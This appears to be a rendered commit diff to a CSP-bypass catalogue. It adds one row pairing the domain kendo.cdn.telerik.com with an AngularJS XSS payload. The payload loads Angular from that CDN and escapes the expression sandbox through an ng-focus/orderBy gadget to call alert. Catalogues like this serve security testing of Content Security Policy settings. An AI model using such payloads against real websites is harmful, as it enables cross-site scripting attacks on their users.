

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added kendo.cdn.telerik.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 109: kendo.cdn.telerik.com | <body ng-app ng-csp><script src="https://kendo.cdn.telerik.com/2015.2.805/js/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
```
